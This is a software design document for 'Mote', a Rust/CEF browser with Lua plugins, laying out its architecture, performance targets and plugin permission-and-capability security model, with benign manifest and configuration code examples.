



# Mote — Design Decisions

Mote is a declarative, dotfiles-native browser with a Neovim-style plugin model and a permission-and-capability security architecture. This document captures decisions from the design conversation and is intended as project context for Claude Code.

## Vision

Mote is a web browser that treats configuration and extensibility the way Neovim treats them: the config file *is* a program, plugins are first-class programmable units, and the boundary between "settings" and "extensions" collapses. The same plugin architecture also serves as a clean target for AI agents — both for LLM-driven plugin generation and for exposing page state (accessibility tree, framework state, network history, console output) to external agents via MCP. Eliminates compatibility with Chromium/Firefox extension ecosystems as a hard requirement — gains a cleaner plugin model, stronger security, hot-reload, composability, and AI-native ergonomics in exchange.

### Name

A *mote* is a tiny particle of matter visible in a beam of light. The metaphor is direct: this browser makes visible what other browsers leave in shadow — capability calls, network requests, plugin behaviors, the audit trail of everything happening inside the rendering engine. The integrity panel surfaces motes other browsers don't.

The name is short, real, and unpretentious — in the same register as Vim, Zed, Helix. The collisions in tech (mote.com voice-messaging, "mote" as IoT-sensor terminology, MOTE acronyms in ML papers) are in different categories and don't compete in the browser space.

## Problem

This project addresses two related gaps in the browser landscape.

**Programmability gap.** The browser is the most-used application on most computers and the least programmable for advanced users. Every other tool in the senior developer's stack — Neovim, shell, tmux, window manager — has evolved into a scriptable instrument configured by files in a Git-tracked dotfiles repo. Browsers went the opposite direction: state hidden in opaque SQLite databases and profile directories, extensions constrained by Manifest V3 and corporate store review, theming through unsupported hacks, no visibility into what the browser is actually doing.

The closest current solution is Zen — a Firefox fork with spaces and a good aesthetic. But Zen's spaces configuration, theme, extension settings, and essentials tabs can't be preserved as config; a fresh install means rebuilding the setup by hand through GUI clicks. And because Zen is a Firefox reskin, writing a custom extension means working inside the WebExtensions API on top of someone else's UI, not extending a programmable platform.

**AI-validation gap.** LLM-driven frontend development has become standard, but the browser-as-tool for AI agents is poorly served. Playwright was designed for human-authored deterministic tests, not for agents reasoning about UI correctness. Models reverse-engineer pages from screenshots and brittle selectors, lose semantic structure to raw DOM dumps, and have no native access to component state, accessibility trees, or correlated user-event traces. The browser knows all of this already and exposes none of it cleanly.

Mote is the next step in both directions: a browser where Lua plugins, transparent permissions, declarative configuration, and composable primitives are the model from day one — and where the same plugin architecture exposes page state (accessibility tree, framework state, network history, console output) to external agents via MCP through a dedicated `introspect:` permission domain. **A browser designed to be programmed by you and inspected by your agents.**

## Core Principles

1. **Config-driven, dotfiles-native.** The browser is fully provisioned from a config file (or files) checked into a dotfiles repo. No state-mutating UI clicks required to reach a working setup.
2. **Plugin model inspired by Neovim.** Lua as the primary plugin language; WASM as the escape hatch for performance-critical or polyglot needs.
3. **Composable plugins.** Plugins can depend on and extend each other. Shared primitives (e.g., request interception) compose instead of conflicting.
4. **Hot-reloadable.** Edit a plugin file, see the change without restarting.
5. **Config-is-plugin.** The user's config is just another plugin file (or set of files). No artificial distinction between "settings" and "extensions."
6. **Permission-based security with capability roles.** Plugins declare exactly what they need from the browser (permissions) and what role they play in the ecosystem (capabilities); the user approves; the runtime enforces.
7. **Transparent by default.** Users can see what every plugin is doing in real time, and revoke any permission at any time.
8. **AI-native, both directions.** The plugin API is small enough to fit in an LLM context window — generation pipelines targeting the spec produce safe, sandboxed plugins on demand. The same plugin architecture exposes semantic browser primitives to external agents via MCP, making the browser an introspectable substrate for AI-driven frontend workflows. The browser itself ships no AI UI; AI features are entirely plugin-delivered.
9. **No user data leaves the machine without explicit per-event consent.** No continuous monitoring, no background analytics, no opt-out telemetry. User-initiated bug reports and per-incident crash dialogs that show exactly what would be sent are acceptable; anything continuous or implicit is not. (Update checks against public APIs are inbound version queries, not outbound user data, and aren't governed by this principle.)

## Plugin Language Choice

**Primary: Lua via `mlua` + LuaJIT.**
- `mlua` provides safe, high-level Rust bindings with zero-cost FFI for common types.
- LuaJIT for JIT-compiled hot paths (request interception, event handlers).
- Trivial to sandbox by controlling the standard library exposure — `io`, `os`, `debug`, `loadstring` are removed from the plugin environment; the only way to do anything is through declared permissions.
- Familiar to the Neovim crowd who are the implicit target audience.

**Escape hatch: WASM via `wasmtime`.**
- For performance-critical work (ad-blocker rule engines, crypto, parsers, anything CPU-heavy).
- Cranelift-based JIT, low-overhead transitions between embedder and WASM, scalable concurrent instances.
- Inherently more sandboxed than Lua — can only call exported host functions.
- Allows polyglot plugins (Rust, Go, Zig, AssemblyScript, etc.).

**Not used: JavaScript.** Marginal benefit, introduces a third runtime, brings event-loop and `this` semantics into a place that doesn't need them. Neovim's choice to stick with one primary language is the right one to copy.

### Config and plugins are the same language

User configuration is Lua, not TOML or YAML or JSON. This is the load-bearing decision behind the rest of the model: the same language, runtime, and API surface that plugins use is what the user writes their config in. There is no separate "config DSL" with limited expressiveness alongside a "real" programming language for plugins.

In practice this gives the user three modes of authoring, on a continuum:

1. **Declarative config** — calling Mote's config functions with table arguments. Reads like data; works as basic configuration.
   ```lua
   mote.theme_overrides({ styling = { colors = { accent = "#FF6B35" } } })
   ```

2. **Inline functionality** — small functions dropped directly in user config. The user doesn't need to write a "plugin" for a one-off behavior.
   ```lua
   mote.on("net:intercept_request", function(req)
     if req.url:match("ads%.example%.com") then return { action = "block" } end
   end)

   mote.keys.bind("Mod+Shift+J", function()
     local current = mote.tabs.current()
     mote.tabs.move(current, { workspace = "junk" })
   end)
   ```

3. **Full plugin authoring** — substantial functionality refactored into a plugin file under `~/.config/mote/plugins/`, with a manifest, permissions, and the rest of the plugin lifecycle. Structurally identical to a third-party plugin.

The transition between modes is near-zero friction — same language, same API, just a different file. A useful inline snippet graduates into a plugin when it grows. Users who would never write a "browser extension" can still write fifteen lines of Lua to make their browser do exactly what they want, and the runtime treats their fifteen lines with the same security model it applies to a third-party plugin.

This matches the Neovim experience deliberately: most Neovim users never write what they'd call a "plugin," but their `init.lua` is full of autocmds, custom commands, and small functions. The Mote equivalent is users whose browser behavior is shaped by their own short snippets, with full plugins reserved for substantial work that's worth sharing.

The trade-off: Lua is harder for users who don't program than a declarative config file would be. The mitigation is that basic config still reads like data — `mote.theme_overrides({ ... })` is a function call with a table argument, indistinguishable from JSON-like configuration to someone not yet writing logic. Advanced power is available when wanted; not required to start.

## Engine — CEF (Chromium Embedded Framework)

We embed Chromium via CEF rather than forking it. This separates "the web rendering engine" from "the browser product," letting us inherit Google's continued investment in web compat, V8 performance, and security updates while owning the UI, networking hooks, and plugin model.

**What CEF gives us:**
- Real Chromium rendering and V8 performance. Same engine as Chrome, same web compat surface.
- Network interception at the right layer via `CefResourceRequestHandler` — this is the single hardest plugin API to implement, and CEF provides it directly. Ad blocking, request modification, and response inspection compose cleanly on top.
- Off-screen rendering for custom UI surfaces when we need to render outside a normal browser view.
- Multi-process architecture by default. Renderer-per-origin with sandboxing inherited from Chromium.
- Active sync with upstream Chromium releases (currently tracking Chromium 140+). The rebase work is done by CEF maintainers, not by us.
- Production track record: Spotify, Steam, Adobe Creative Cloud, Figma desktop, Slack. Battle-tested in security-sensitive environments.

**What we explicitly do not use from CEF:**
- The Chrome extension subsystem. Our plugin model replaces it entirely. We use CEF as a rendering engine, not as a platform. Extension support is opt-in in CEF; we leave it off.

**Footprint reality:** A CEF distribution is ~100–200 MB on disk. We're shipping Chromium, and that's the table stakes — Firefox is comparable. The shell around CEF is what we keep lean.

**Engines we evaluated and rejected:**
- **WebKitGTK**: weaker network interception, web compat lags Chrome on subtle cases. Disqualifying for the plugin API surface we need.
- **QtWebEngine**: Chromium under the hood but Qt strips and reshapes the low-level hooks we need.
- **Servo/Verso**: Verso was archived; Servo itself isn't feature-complete enough for live web rendering. Right answer in 2030, wrong answer in 2026.
- **Forking Chromium directly**: reinvents CEF's contribution (a stable embedding API over moving Chromium internals).
- **System webviews via Tauri/Wails**: no real network interception. Disqualifying.

**On the privacy of choosing a Chromium-based engine.** "Chromium engine" does not mean "Google's privacy posture." Privacy in a browser is a function of the *shell* — how the browser handles cookies, what telemetry it sends, how it surfaces tracking, what permissions plugins get, whether the audit log exists. Mote's shell decisions (capability-based permissions, transparency principle, no-data-without-consent, network audit log) make it substantially more private than Chrome despite both using Chromium for rendering. A Firefox-equivalent embedded engine would be the obvious alternative for users who associate Chromium with Google's product choices, but Mozilla actively discourages embedding Gecko in third-party applications; no maintained equivalent of CEF exists for it. WebKit is the only other realistic embedded option and was rejected above.

## Implementation Language — Rust

The browser shell is written in Rust. The reasoning:

1. **Memory safety in a security-sensitive project.** A sandbox escape would be catastrophic. Rust's ownership model prevents the classes of bugs (use-after-free, data races, buffer overflows) that have historically caused the majority of browser CVEs.

2. **Performance without a runtime.** No garbage collector means no GC pauses during plugin execution, request interception, or UI rendering. Tab switching is synchronous and sub-millisecond. Plugin calls are direct function invocations with zero allocation overhead when the API is designed right.

3. **Footprint.** Rust binaries optimized with LTO and dead-code elimination are small. No runtime overhead means the shell process is ~5–10 MB resident instead of ~50 MB for an equivalent Go binary. Every megabyte matters when CEF is already accounting for the bulk of the install size.

4. **Ecosystem alignment.** The browser space is increasingly Rust: Servo, parts of Firefox (Stylo, WebRender), Ladybird (Rust ports in progress), Tauri's entire stack. The crate ecosystem we need (`cef`, `mlua`, `wasmtime`, `parking_lot`) fits the project shape exactly.

5. **C++ interop where needed.** CEF is C++; Rust's FFI story is mature and zero-cost. `tauri-apps/cef-rs` provides current bindings tracking Chromium 140.

**Languages we evaluated and rejected:**
- **Go**: GC pauses are unacceptable in browser hot paths. cgo overhead for the volume of CEF FFI is significant. CEF Go bindings (`cef2go`) are stale.
- **C++**: Native to CEF, but writing modern C++ for a security-critical project at this scale is more risk than value. Memory safety has to be earned through discipline rather than provided by the compiler.

## Performance Architecture

**Performance targets:**
- Plugin call overhead: <100 μs for Lua, <500 μs for WASM
- Tab switch latency: <1 ms
- No GC pauses, ever
- Shell (main/browser) process resident memory: a ~200–250 MB floor, dominated by the GPU compositor device and the CEF browser process; the figure actively minimized is the **per-page CEF renderer overhead (~10–35 MB)**. (The earlier ~50–100 MB aspiration predated embedding a GPU compositor and CEF in the shell; it is not achievable for any Chromium-embedding browser. Measured across three UI-architecture spikes — see `docs/research/ui-spike-*.md`.)
- Cold start: <500 ms to first paint
- Request interception throughput: thousands of concurrent requests/sec without bottlenecking

**Architectural choices to hit those targets:**

1. **mlua + LuaJIT for plugin runtime.** Direct FFI for hot-path types, no marshaling layer. A plugin's `on_request` handler is a direct function call from the network hook, not a message dispatch.

2. **wasmtime for WASM escape hatch.** Cranelift JIT, instance pooling, low-overhead host calls. WASM plugins pay a small fixed cost per call (worth it for CPU-heavy work like rule-engine matching).

3. **parking_lot for synchronization.** `parking_lot::Mutex` is ~1.5× faster than `std::sync::Mutex` uncontended and up to 5× faster contended; `RwLock` supports hardware lock elision. Used for shared plugin state and the registries.

4. **crossbeam channels for inter-thread messaging.** Lock-free MPSC and SPSC channels for plugin events, permission audit logging, and UI updates. Avoids the cost of `std::sync::mpsc`.

5. **Lock-free permission audit log.** Permission calls are sent via a crossbeam channel to a dedicated audit thread that writes to an in-memory ring buffer and periodically flushes to SQLite. Logging a call is a single atomic append, not a mutex acquisition. Plugins can be verbose without paying.

6. **Compile-time optimization.** Release builds use LTO, `panic = "abort"`, and `codegen-units = 1`. Dead-code elimination removes any permission API surface not actually used by loaded plugins.

7. **No async runtime in the hot path.** `tokio` is used only for high-level coordination (background updates, file watching, persistent storage flushes). Plugin dispatch is synchronous to avoid scheduler overhead.

8. **Synchronous plugin calls with deterministic timeouts.** Plugins get a budget per hook type (see *Plugin Dispatch and Composition*); exceeding it treats the result as `defer` and logs a warning. No plugin can stall the browser.

**Layered architecture:**

```
┌─────────────────────────────────────────────────┐
│  Rust shell                                     │
│  - UI (tab strip, urlbar, workspaces, panels)   │
│  - Config loader (Lua → runtime state)          │
│  - Permission gatekeeper (lock-free audit)      │
├─────────────────────────────────────────────────┤
│  Plugin runtime                                 │
│  - mlua + LuaJIT (sandboxed Lua plugins)        │
│  - wasmtime (WASM plugins)                      │
│  - Permission dispatch layer                    │
├─────────────────────────────────────────────────┤
│  CEF bindings (cef-rs / tauri-apps/cef-rs)      │
│  - CefResourceRequestHandler → net hooks        │
│  - CefRenderHandler → off-screen render         │
│  - CefBrowserHost → tab lifecycle               │
├─────────────────────────────────────────────────┤
│  CEF / Chromium                                 │
│  - Blink, V8, network stack                     │
│  - Renderer processes (sandboxed per origin)    │
└─────────────────────────────────────────────────┘
```

A plugin call for request interception flows: Chromium net layer → CEF handler (C++ → Rust FFI) → permission dispatch (which plugin owns `net:intercept_request`?) → mlua call → Lua handler returns decision → back through the chain. Sub-microsecond for the Rust portion; mlua call adds the bulk of the latency budget.

## Dependency Stack

| Layer | Crate | Purpose |
|---|---|---|
| Engine | `cef` (tauri-apps/cef-rs) | Rust bindings to CEF, tracking current Chromium releases |
| Plugin runtime — Lua | `mlua` with `luajit` feature | High-level Lua bindings, synchronous host calls in the hot path, sandboxed environment |
| Plugin runtime — WASM | `wasmtime` | Cranelift JIT, low-overhead host calls, scalable instances |
| Synchronization | `parking_lot` | Faster mutexes/RwLocks with hardware lock elision |
| Channels | `crossbeam-channel` | Lock-free MPSC/SPSC for plugin events and audit logging |
| Storage | `rusqlite` | SQLite for per-plugin persistent storage, audit history |
| Config | `toml`, `serde` | Declarative config parsing |
| Async (coordination only) | `tokio` | Background tasks, file watching — not hot path |
| Logging | `tracing` | Structured logging, integrates with permission audit |
| Crypto | `ring`, `age` | Sealed per-plugin storage, signature verification |
| Hashing | `blake3` | Fast plugin checksum verification |
| UI framework | TBD | See Open Decisions |

The UI framework is the one remaining big technical decision. We likely build a thin custom UI layer over `wgpu` or Skia rather than adopting an opinionated framework like `iced` or `egui`. To be validated against the workspace and integrity-panel requirements during MVP phase 3.

## Security Model — Permissions and Capabilities

The plugin model distinguishes three concepts in every manifest:

- **Permissions** — what the system grants to the plugin (vertical, browser → plugin). Examples: "can intercept network requests," "can fetch from `*.1password.com`." The user approves these at install time and can revoke any of them at any time.
- **Capabilities** — what roles the plugin fulfills in the ecosystem (horizontal, plugin → ecosystem). Examples: "I am the password manager," "I am the urlbar suggestion provider."
- **Consumes** — what capabilities this plugin needs *some* other plugin to fulfill. Not a dependency on a specific plugin; a dependency on a capability contract. Whichever plugin currently fulfills the capability is who this plugin talks to.

All three lists must reference known terms from the browser's registries (see *Permission and Capability Registries* below). A plugin referencing an unknown permission or capability is rejected at load time with a clear error. Free-form strings are not allowed — that's how ecosystems fragment.

Plugins talk to each other only through capability contracts. There are no direct module imports between plugins, no version constraints on specific plugin names, and no `require("other-plugin")` calls. If plugin A needs functionality from plugin B, the functionality is exposed as a capability that B fulfills and A consumes.

### Manifest Example

```lua
local M = {}
M.manifest = {
  schema = "v1",
  name = "password-manager-1password",
  version = "1.0.0",

  permissions = {                          -- granted by the browser
    "http:fetch:https://*.1password.com/*",
    "storage:persistent",
    "page:inject_script:*",
    "crypto:seal_to_plugin",
    "identity:read_current",
  },

  identity_scope = "user_choice",          -- per_identity | global | user_choice

  capabilities = {                         -- roles fulfilled in the ecosystem
    "password-manager:provider",
  },

  consumes = {                             -- capabilities this plugin needs available
    "password-manager-form-services",
  },

  homepage = "https://github.com/...",
  checksum = "sha256:abc123...",
}

function M.setup()
  -- runs only after all four load-time checks pass; see Enforcement Rules
end

return M
```

### Permission Primitives

Fine-grained, not broad. The key insight is orthogonality: `net:intercept_request` is separate from `page:inject_script` because an ad blocker needs the first but not the second, and a dark-mode plugin needs the second but not the first.

Permissions use an IAM-style `domain:action[:resource]` syntax:

```
# Implicit resource = everything in scope
net:intercept_request                              # all requests
storage:persistent                                 # plugin's own namespace (always scoped)

# Explicit wildcard
net:intercept_request:*                            # same as above
page:inject_script:*                               # any origin (highest scrutiny)

# Specific resource
page:inject_script:https://*.1password.com/*       # 1password only
http:fetch:https://api.bitwarden.com/*             # outbound to bitwarden api only
http:fetch:wss://localhost:6263                    # local desktop-app channel, specific port

# Negative / deny (takes precedence)
net:intercept_request:*
net:intercept_request:!*.banking.com               # block banking from interception
```

**User narrowing at install time.** A plugin manifest may declare `page:inject_script:*` but the user can grant something narrower. Narrowing is not denial — the plugin **loads** with the narrower grant.

The install dialog renders narrowable permissions with three modes:

```
○ page:inject_script
  Requested: any page (*)
  ◯ Grant fully (any page)
  ● Grant on specific origins:
    [github.com/*           ] [×]
    [gitlab.com/*           ] [×]
    [linear.app/*           ] [×]
    [+ add another origin   ]
  ◯ Deny
```

The user picks one mode. Under "grant on specific origins," the user adds glob patterns inline; the plugin loads with the union of those patterns as its effective scope. Patterns use the same syntax as manifest-declared scopes (`https://github.com/*`, `https://*.linear.app/*`).

Three consequences:

- The plugin's effective permission list reflects the narrowed scope, not the requested one.
- Plugins read their effective permissions at `setup()` time via `permissions.effective()` (returns the list of patterns as strings) and adapt UI accordingly — for example, "running on 3 sites; click to add more." This information leaks nothing a plugin couldn't already discover by probing; making it explicit lets legitimate plugins be honest about their scope.
- The integrity panel shows requested-vs-effective for each permission and exposes the same multi-pattern editor for post-install changes. Users can add or remove origins at any time without uninstalling; the plugin sees the change on reload.

**Wildcards match what they say.** `http:fetch:*` grants access to any origin the plugin chooses to reach, including localhost. Plugins with narrower needs declare narrower scopes; users can narrow further at install time. The install dialog and integrity panel make wildcard grants visible, so users understand what they're approving.

The permission domains (full names defined in the Permission Registry):

```
net:        intercept_request, read_response_body, modify_response, fetch_unsigned
page:       inject_script, inject_unsafe_script, inject_css, read_dom
tabs:       list, focus, create, close, get_history, reveal, modify_state
workspaces: list, switch
identity:   read_current, list, create
storage:    persistent, memory
session:    manage_hidden, exclude_forms
bookmarks:  read, write
history:    read, write, delete
config:     read, watch
ui:         sidebar, panel, action_button, urlbar_extension
keys:       bind, intercept_input
crypto:     seal_to_plugin
sys:        native_message, clipboard:read, clipboard:write, notify
events:     emit, on
http:       fetch
mcp:        client:<server-name>, server:bind_loopback, server:bind_public
secret:     read:<name>
introspect: accessibility_tree, framework_state, console, network_history, computed_styles
```

**Deferred to a later release.** These are real needs but not blocking v0.1; specific permissions and capability contracts will be designed when the corresponding plugin work is scheduled:

- `downloads:*` — observing or triggering downloads beyond what `net:intercept_request` covers. Needed by the `download-manager` plugin in Tier 3.
- `notifications:*` — observing or blocking page-initiated Web Notification API calls. Distinct from `sys:notify`, which is plugin-initiated OS notifications.
- `cookies:*` — reading or modifying cookies. Needed for cookie-management plugins (delete-on-tab-close, container-style behaviors). v0.2+.

**Explicitly not in the registry.** These are deliberate non-inclusions; adding them would create attack surface without meaningfully enabling legitimate use cases:

- `permissions:query` — no meta-introspection of permissions. A plugin cannot inspect what other plugins have been granted. The integrity panel is implemented in the runtime, not as a plugin.
- `config:write` — plugins do not modify the user's dotfile config. Configuration is the user's domain; plugins read it (`config:read`, `config:watch`) and react.

### Capability Roles

Capabilities are roles a plugin fulfills in the ecosystem. The framework distinguishes only two kinds:

- **Exclusive** — only one plugin can fulfill at a time. If two plugins claim the same exclusive capability, the second fails to load with a clear error and the user is asked to choose.
- **Non-exclusive** — multiple plugins can fulfill simultaneously.

How the runtime treats multiple fulfillers of a non-exclusive capability is specified per-capability in the registry — not via a framework-level taxonomy. Some capabilities have the runtime call each fulfiller in priority order and stack their results (themes). Others have the runtime aggregate contributions into a unified surface (`mcp:server` tools, namespaced and exposed at one endpoint). The contract for each capability declares its dispatch shape; plugin authors don't choose, they fulfill the contract.

An exclusive provider may *internally* expose an event surface for other plugins to contribute to — this is just a pattern available to any provider, not a framework construct. The urlbar is the canonical example: `history` holds `ui:urlbar_provider` exclusively but emits `urlbar:suggest` events that bookmarks, tab-search, and other plugins contribute to. The framework guarantees one provider; the provider chooses whether to be extensible.

Examples from the registry:

```
ui:urlbar_provider              # exclusive
ui:newtab_replacer              # exclusive
ui:download_handler             # exclusive
ui:bookmarks_provider           # exclusive
ui:history_provider             # exclusive
workspace:provider              # exclusive
password-manager:provider       # exclusive

theme:provider                  # non-exclusive; runtime stacks stylesheets in priority order
adblock:rule_source             # non-exclusive; runtime concatenates rule sets
mcp:server                      # non-exclusive; tools namespaced under <plugin-name>.<tool>, exposed at one endpoint
secret:provider                 # non-exclusive; password managers etc. opt in to back the secret subsystem
```

### Inter-plugin communication

Plugins do not import each other directly. There is no `require("other-plugin")` between plugins, and no version constraint on specific plugin names. All inter-plugin interaction is mediated by capability contracts.

A plugin needing functionality from another plugin declares the capability it consumes:

```lua
M.manifest = {
  consumes = { "password-manager-form-services" },
}
```

At runtime, the plugin calls the consumed capability's API or listens to its events. The capability registry defines the contract for each capability — what API functions exist, what events get emitted, what payload shapes are passed. Whichever plugin currently fulfills the capability is who the consumer talks to.

Two mechanisms for inter-plugin interaction, both contract-defined:

**Event bus** (asynchronous). The capability contract declares events that fulfillers emit and that consumers may listen for. A consumer declares its event handlers in `M.events`:

```lua
M.events = {
  ["password-manager-form-services:form-detected"] = function(form)
    -- handler logic
  end,
}
```

The runtime invokes the handler when an active fulfiller emits the event. Plugins never construct event-listener subscriptions imperatively; declarative `M.events` is the only registration path.

**Capability API invocation** (synchronous). The capability contract declares a function surface that fulfillers expose; consumers call into it via the runtime:

```lua
-- In a consumer plugin
local result = capabilities.invoke(
  "password-manager-form-services",
  "show_autofill_picker",
  items
)
```

The runtime routes the call to whichever plugin currently fulfills `password-manager-form-services`. The fulfiller's function executes under the *fulfiller's* permissions, not the caller's — this is intentional and matches the rest of the security model.

For password-manager scenarios specifically, both mechanisms are used: events fire when a form is detected ("anyone interested?"), and the consumer responds by calling the picker via capability API invocation when it has items to offer.

### Resolution at load time

If a plugin consumes a capability that no plugin fulfills, the plugin fails to load with a clear error:

```
Cannot load password-manager-1password:
  consumes capability `password-manager-form-services`, but no plugin
  currently fulfills it.

Resolve by installing a plugin that fulfills `password-manager-form-services`.
```

The integrity panel surfaces this. Once a fulfilling plugin is installed and approved, the consumer loads on the next reload.

For exclusive capabilities, the user enables exactly one fulfiller; consumers reach it via the runtime. For non-exclusive capabilities, the contract specifies how multiple fulfillers compose (events fan out to all listeners; API calls go to a specific fulfiller chosen by the runtime per the contract's rules).

### Per-plugin storage and permissions

There is no longer a notion of "multiple versions of the same plugin loaded concurrently." Each plugin is loaded once. Its storage namespace is `<plugin-name>`. Its permission grants are scoped to that plugin name. When a plugin is upgraded, the new version replaces the old in the same namespace; if the new manifest changes permissions, capabilities, or `consumes` entries beyond what was previously approved, the user re-approves before the new version loads.

### Permissions and capability invocation

When plugin A invokes plugin B's capability API, **B's call executes under B's permissions**, not A's. This is unchanged from the previous model and remains intentional: the audit log shows which plugin actually performed each privileged action, and a plugin cannot escalate by routing dangerous operations through a capability call.

### Worked example

```lua
-- password-manager-form-services-plugin/init.lua
-- Provides the form-services capability; could be the official implementation,
-- a fork, or a community alternative. The 1Password plugin doesn't care which.

local M = {}

M.api = {
  show_autofill_picker = function(items)
    -- runs under THIS plugin's permissions, not the caller's
    return picker_implementation(items)
  end,
  inject_isolated = function(script, world_id) ... end,
}

M.hooks = {
  ["page:on_load"] = function(p)
    local form = detect_login_form(p)
    if form then events.emit("password-manager-form-services:form-detected", form) end
  end,
}

return M
```

```lua
-- password-manager-1password/init.lua
-- Consumer. Doesn't know or care which plugin fulfills form-services.

local M = {}

M.events = {
  ["password-manager-form-services:form-detected"] = function(form)
    local items = M.fetch_from_1password(form.origin)
    local selected = capabilities.invoke(
      "password-manager-form-services",
      "show_autofill_picker",
      items
    )
    if selected then
      capabilities.invoke(
        "password-manager-form-services",
        "inject_isolated",
        build_fill_script(selected),
        "1password-fill-world"
      )
    end
  end,
}

return M
```



In this model, the 1Password plugin and the form-services plugin are peers. Either can be developed, versioned, and shipped independently. A future Bitwarden plugin can consume the same `password-manager-form-services` capability. A community fork of form-services with different heuristics can drop in as a replacement without the 1Password plugin needing changes — the contract is what matters.

### Enforcement Rules

Four checks happen at load time, in order. Failure at any step prevents the plugin from loading.

1. **Schema validation.** Every entry in `permissions`, `capabilities`, and `consumes` must reference known terms from the registry version the plugin targets. Unknown terms fail fast with a clear error. If the plugin consumes a capability that no installed plugin currently fulfills, this step also fails with the dangling-consumer error.
2. **Module load.** The plugin's Lua module is loaded — `M` table constructed, `M.api` populated, `M.events`/`M.hooks` declared. **`setup()` is not called yet.**
3. **Contract conformance.** For each claimed capability, look up its contract in the capability registry for the targeted schema version. Verify the loaded module exposes at least the required API surface and declares handlers for the required events. Contracts are **loose** — plugins may expose additional API beyond the minimum (e.g., vendor-specific extras) but must not be missing required surface.
4. **Permission approval.** User is shown requested permissions across the plugin and its dependencies (with requested → effective for any narrowing the user applies) and approves or denies. Cached across launches; revocation is explicit.

If all four pass, `setup()` runs and binds the declared handlers.

**Event handlers are declarative, not imperative.** A plugin lists its event handlers in a module-level table (`M.events = { ["password-manager:fill-requested"] = handler_fn }`) rather than calling `events.on(...)` inside `setup()`. This is what makes step 3 a static check on the loaded module — the runtime can read what the plugin will do without having to run it. `setup()` is then free to write storage, fetch over the network, or do anything else within its permissions; by the time it runs, the plugin has already been validated.

> **Open at implementation time.** The declarative model is the design choice; whether it survives contact with real plugin authoring is an implementation-time question. If the static-validation benefit doesn't outweigh the unfamiliarity of declarative-table registration in practice, the fallback is imperative `events.on(...)` inside `setup()` with conformance becoming a dynamic check. Worth flagging here because the choice is real and reversible only before the v1 schema locks.

Runtime rules:

- **No permission elevation at runtime.** Plugins declare everything upfront. There is no `request_permission()` API.
- **Sandboxed runtime.** Lua plugins run with `io`, `os`, network, and FS access removed. The only way to do anything is through declared permissions.
- **WASM plugins are more constrained.** Pure WASM with explicitly exported host functions only.
- **No event-based privilege escalation.** Events are notifications, not permission transfers.
- **Permissions are enforced per-plugin, not transitively.** A dependency's API call runs under its own permissions, not the caller's.
- **`sys:native_message` requires per-invocation user confirmation** by default, or explicit allowlisting in user config. Hardest-gated permission.
- **Plugins adapt to their effective permissions.** The manifest declares what the plugin asks for; the user may grant, narrow, or deny each. The plugin reads `permissions.effective()` at `setup()` time and decides what to do — including refusing to run if it lacks what it considers essential. The runtime grants what the user approved; the plugin handles the consequences. Plugin documentation is where authors communicate which permissions enable which features.

### Revocation

- User can revoke any permission at any time from the integrity panel.
- Revocation is persistent and takes effect immediately.
- Plugin reads its effective permission set on reload and adapts (or refuses to run if it considers the remaining set insufficient).
- Revocation state is part of the dotfiles-checkable config.

